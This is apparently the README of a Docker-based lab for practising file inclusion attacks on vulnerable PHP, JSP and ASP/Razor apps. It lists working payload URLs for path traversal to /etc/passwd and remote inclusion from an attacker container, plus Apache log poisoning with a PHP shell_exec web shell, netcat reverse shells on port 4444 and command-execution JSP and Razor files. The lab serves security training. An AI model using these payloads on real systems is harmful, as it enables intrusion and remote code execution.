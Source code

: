 # Installation

- Install Docker
- If you want to use the windows network on a non Windows OS also install [VirtualBox](https://www.virtualbox.org/) 

## Ubuntu

Check if you have docker-machine and docker-compose also installed. 
Notice that if not added to docker group, docker has to be run with sudo.

## Windows

Using [Cmder](https://cmder.net/) on Windows you can run `docker-compose -f lfi_linux_network.yml up --build` to run the linux network. 

# Payloads

For an in-detail-description of the following payloads go to [https://secf00tprint.github.io/blog/payload-tester/lfirfi/en](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

- [http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?](http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?)

see `allow_url_include` in response

- [http://127.0.0.1:8883/lfi.php?page=http://google.com](http://127.0.0.1:8883/lfi.php?page=http://google.com)


### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploit

Upload shell.php
[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)

then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### LFI

Upload runme.jsp from attacker_server_jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

### RFI

(You have to adjust ip addresses to the attacker server in the docker network)

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)
- [http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

